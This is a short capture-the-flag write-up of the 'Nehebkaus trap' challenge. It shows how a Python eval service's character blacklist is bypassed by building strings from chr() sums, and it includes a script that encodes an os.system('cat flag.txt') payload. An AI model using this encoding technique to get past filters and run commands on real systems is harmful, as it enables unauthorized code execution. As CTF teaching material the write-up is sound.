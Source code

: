 # Nehebkaus trap (medium)
For this challenge the remote allows us to send input.

After some trial and error I sent
`print(1)` and I got back 1 as the result. This seems like python evaluates whatever we input

Let's try `print('test')`!
Oh, this contains a blacklisted character :(

But parentheses work! We can construct any string we want by doing `chr(<ascii code>)+...+chr(<ascii code>)`
And luckily the `+` is also allowed.

Now all that is left to do is to encode our payload with the following method to get the flag:

```python
def obf(inp):
    ans = []
    for c in inp:
        ans.append(f'chr({ord(c)})')
    return '+'.join(ans)

shell_cmd = 'cat flag.txt'
eval_content = f'__import__("os").system("{shell_cmd}")'
command = f'print(eval({obf(eval_content)}))'

print(command)
```
